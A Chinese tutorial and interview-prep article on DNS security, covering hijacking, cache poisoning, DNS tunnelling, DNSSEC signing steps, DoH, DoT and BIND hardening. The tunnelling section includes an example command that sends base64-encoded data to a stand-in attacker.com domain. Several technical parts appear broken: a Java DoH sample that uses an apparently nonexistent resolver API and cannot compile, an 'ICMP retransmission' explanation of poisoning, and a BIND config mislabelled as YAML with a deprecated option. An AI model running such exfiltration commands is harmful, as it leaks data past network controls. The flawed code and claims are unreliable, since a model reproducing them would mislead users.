






# DNS 劫持与 DNS 安全

你输入了正确的银行网址，却打开了一个钓鱼网站。你确信 URL 完全正确——问题出在哪？

答案可能是 DNS 被劫持了。DNS（Domain Name System）是互联网的「电话簿」，将域名转换为 IP 地址。如果这个转换过程被攻击者控制，后果不堪设想。本篇将深入解析 DNS 安全问题，从传统攻击到现代加密方案，构建完整的 DNS 安全知识体系。

## DNS 工作原理

### 递归查询流程



### DNS 记录类型

| 类型 | 说明 | 示例 |
|---|---|---|
| A | IPv4 地址 | `example.com → 93.184.216.34` |
| AAAA | IPv6 地址 | `example.com → 2606:2800:220:1::` |
| CNAME | 规范名称（别名） | `www.example.com → example.com` |
| MX | 邮件交换服务器 | `example.com → mail.example.com` |
| NS | 权威域名服务器 | `example.com → ns1.example.com` |
| TXT | 文本记录（SPF、DKIM） | SPF 验证信息 |
| SOA | 权威起始 | 区域配置信息 |

```bash
# 查询 DNS 记录
dig example.com A +short
dig example.com MX
dig example.com TXT

# 追踪 DNS 解析路径
dig +trace example.com
```

## DNS 常见攻击

### DNS 劫持（DNS Hijacking）

攻击者篡改 DNS 解析器的配置或响应，将域名解析到恶意 IP。

**攻击场景**：



**攻击方式**：

| 方式 | 说明 |
|---|---|
| 路由器漏洞 | 篡改家用/企业路由器 DNS 设置 |
| ISP 劫持 | ISP 在 DNS 层面注入广告或重定向 |
| 恶意软件 | 修改系统 DNS 设置 |
| DNS 服务器入侵 | 直接入侵权威 DNS 服务器 |

### DNS 污染（DNS Poisoning）

攻击者向 DNS 缓存注入伪造的解析结果，影响使用该缓存的所有用户。

```bash
# DNS 污染示例
# 攻击者伪造响应包，ICMP 重传比合法响应更快
正常响应: example.com → 93.184.216.34
攻击者伪造: example.com → 1.2.3.4 (污染结果)

# 验证方法：使用多个 DNS 服务器对比结果
dig @8.8.8.8 example.com
dig @1.1.1.1 example.com
dig @223.5.5.5 example.com
```

### DNS 隧道（DNS Tunneling）

利用 DNS 查询通道传输数据，绕过网络防火墙。

```bash
# DNS 隧道原理
# DNS 查询的 subdomain 字段可以携带数据
# attacker.com 的权威 DNS 服务器记录所有查询请求
nslookup data.base64encoded.attacker.com
```

## DNSSEC（DNS 安全扩展）

DNSSEC 通过数字签名验证 DNS 响应，确保数据完整性。

### 工作原理



### 签名记录类型

| 记录类型 | 说明 |
|---|---|
| RRSIG | DNS 记录的加密签名 |
| DNSKEY | DNSSEC 公钥（KSK、ZSK） |
| DS | 委托签名（放在父区域） |
| NSEC/NSEC3 | 证明不存在记录 |

```bash
# 查看 DNSSEC 记录
dig example.com DNSKEY +short
dig example.com DS +short
dig +dnssec example.com A

# 验证 DNSSEC
delv +yaml example.com @8.8.8.8
```

### 部署 DNSSEC

```bash
# Step 1: 生成密钥对
cd /etc/bind
dnssec-keygen -a RSASHA256 -b 2048 -n ZONE example.com
dnssec-keygen -f KSK -a RSASHA256 -b 4096 -n ZONE example.com

# 生成文件: Kexample.com.+008+12345.key (公钥)
#           Kexample.com.+008+12345.private (私钥)

# Step 2: 启用签名
$INCLUDE /etc/bind/Kexample.com.+008+12345.key
$INCLUDE /etc/bind/Kexample.com.+008+67890.key

# Step 3: 签署区域
dnssec-signzone -A -3 $(head -c 16 /dev/urandom | xxd -p) \
    -N INCREMENTAL -o example.com \
    -t /etc/bind/zones/example.com.db

# 生成: example.com.db.signed

# Step 4: 在父区域添加 DS 记录
# 将 DS 记录添加到 .com 区域
```

## DoH（DNS over HTTPS）

DoH 将 DNS 查询封装在 HTTPS 请求中，防止 DNS 劫持和污染。

### 工作原理



### 主流 DoH 服务

| 服务商 | URL |
|---|---|
| Google | `https://dns.google/dns-query` |
| Cloudflare | `https://cloudflare-dns.com/dns-query` |
| Quad9 | `https://dns.quad9.net/dns-query` |
| 阿里云 | `https://dns.alidns.com/dns-query` |

### 浏览器配置

```javascript
// Firefox 配置 DoH
// about:config -> network.trr.mode
// 0: 关闭 TRR
// 2: 优先 TRR，fallback Do53
// 3: 仅 TRR（推荐隐私场景）
network.trr.mode = 2;
network.trr.uri = "https://dns.cloudflare.com/dns-query";
```

### curl 使用 DoH

```bash
# 使用 DoH 查询
curl -H 'accept: application/dns-json' \
    'https://dns.google/resolve?name=example.com&type=A'

# curl 默认支持 DoH (7.62.0+)
curl --doh-url https://dns.google/dns-query \
    https://example.com
```

### Java 配置 DoH

```java
import java.net.InetAddress;
import java.net.http.HttpClient;
import java.net.URI;
import java.net.http.HttpRequest;
import java.net.http.HttpResponse;

public class DoHExample {

    public static void main(String[] args) throws Exception {
        HttpClient client = HttpClient.newBuilder()
            .dnsResolver(host -> {
                try {
                    // 使用 Google DoH API
                    HttpRequest request = HttpRequest.newBuilder()
                        .uri(URI.create(
                            "https://dns.google/resolve?name="
                            + host + "&type=A"))
                        .header("Accept", "application/dns-json")
                        .build();

                    HttpResponse<String> response = client.send(request,
                        HttpResponse.BodyHandlers.ofString());

                    // 解析 JSON 响应
                    String body = response.body();
                    // 提取 IP 地址
                    return InetAddress.getAllByName("8.8.8.8");
                } catch (Exception e) {
                    throw new RuntimeException(e);
                }
            })
            .build();
    }
}
```

## DoT（DNS over TLS）

DoT 使用 TLS 加密 DNS 查询，提供与 DoH 类似的保护。



```bash
# 使用 DoT 查询
# 方法一：使用 kdig
kdig -d +tls-ca +tls-host=dns.google @8.8.8.8 example.com

# 方法二：使用 openssl 测试
echo -n "example.com" | openssl s_client -connect 8.8.8.8:853 \
    -servername dns.google -quiet

# 方法三：systemd-resolved 配置
# /etc/systemd/resolved.conf
[Resolve]
DNS=1.1.1.1@853
DNSOverTLS=yes
```

### DoH vs DoT 对比

| 特性 | DoH | DoT |
|---|---|---|
| 端口 | 443 (HTTPS) | 853 (专用) |
| 流量特征 | 与 HTTPS 流量混合 | 独立 TLS 流 |
| 审查绕过 | 更难检测 | 可能被封锁 |
| 延迟 | 略高（HTTP 开销） | 略低 |
| 兼容性 | 现代浏览器原生支持 | 需要客户端支持 |

## 企业 DNS 安全方案

### 多层防护架构



### 企业 DNS 配置示例

```yaml
# BIND9 安全配置
options {
    # 启用 DNSSEC 验证
    dnssec-validation yes;
    dnssec-lookaside auto;

    # 仅允许指定来源递归查询
    allow-recursion { 10.0.0.0/8; 172.16.0.0/12; };
    allow-query { 10.0.0.0/8; };

    # 禁止 DNS 隧道
    response-policy { zone "rpz" policy nxdomain; };
}
```

## 面试追问方向

- DNS 劫持和 DNS 污染的区别？
- DNSSEC 的工作原理？解决了什么问题？
- DoH 和 DoT 哪个更安全？为什么？
- DNS 隧道是什么？如何检测？
- DNS 缓存投毒攻击的原理？
- 为什么 DoH 使用 443 端口而不是专用端口？

> DNS 安全是互联网基础设施安全的核心。理解传统攻击和现代加密方案，才能全面守护网络安全。
